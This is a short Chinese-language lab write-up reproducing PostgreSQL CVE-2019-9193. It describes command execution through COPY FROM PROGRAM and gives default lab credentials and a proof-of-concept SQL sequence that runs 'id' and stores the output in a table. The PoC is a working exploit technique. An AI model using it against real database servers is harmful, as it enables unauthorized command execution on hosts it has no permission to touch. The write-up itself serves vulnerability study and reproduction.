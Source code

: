 # PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）

###### by ADummy

### 0x00利用路线

​			连接到数据库，直接命令执行

### 0x01漏洞介绍

​			PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

影响版本

```
PostgreSQL < 11
```

### 0x02漏洞复现

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

登录postgres: `psql --host your-ip --username postgres`

并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![PostgreSQL_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PostgreSQL_RCE_1.png)













